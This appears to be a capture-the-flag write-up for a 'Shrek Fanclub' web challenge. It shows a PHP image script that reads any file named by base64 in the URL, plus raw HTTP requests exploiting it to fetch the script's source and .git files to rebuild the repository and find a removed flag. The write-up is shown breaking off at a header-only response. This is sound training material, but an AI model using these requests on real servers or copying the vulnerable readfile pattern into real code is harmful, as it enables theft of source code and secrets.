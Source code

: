 ```
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="getimg.php?img=aW1nMS5qcGc%3D">
<div>There used to be something here but Donkey won't leave me alone<div>
</body>
</html>
```

`getimg.php` base64 encoded is `Z2V0aW1nLnBocA`.

```
GET /getimg.php?img=Z2V0aW1nLnBocA HTTP/1.1
Host: 3.91.17.218
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Date: Sat, 07 Mar 2020 19:58:41 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.1.20
Content-Length: 83
Connection: close
Content-Type: image/jpg

<?php
header("Content-Type: image/jpg");
readfile(base64_decode($_GET['img']));
?>
```

A local git repository has a well known structure under `.git` folder, so you can start to read standard files to build the local repository from scratch:
* `.git/index` base64 encoded is `LmdpdC9pbmRleA`;
* `.git/config` base64 encoded is `LmdpdC9jb25maWc`;
* `.git/HEAD` base64 encoded is `LmdpdC9IRUFE`;
* `.git/refs/remotes/origin/master` base64 encoded is `LmdpdC9yZWZzL3JlbW90ZXMvb3JpZ2luL21hc3Rlcg`;
* `.git/refs/heads/master` base64 encoded is `LmdpdC9yZWZzL2hlYWRzL21hc3Rlcg`;
* `.git/logs/HEAD` base64 encoded is `LmdpdC9sb2dzL0hFQUQ`.

In particular the `.git/logs/HEAD` file will allow you to discover the IDs of the commits and when the flag was removed from the source code.

```
GET /getimg.php?img=LmdpdC9sb2dzL0hFQUQ HTTP/1.1
Host: 3.91.17.218
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Date: Sat, 07 Mar 2020 20:05:42 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.1.20
```
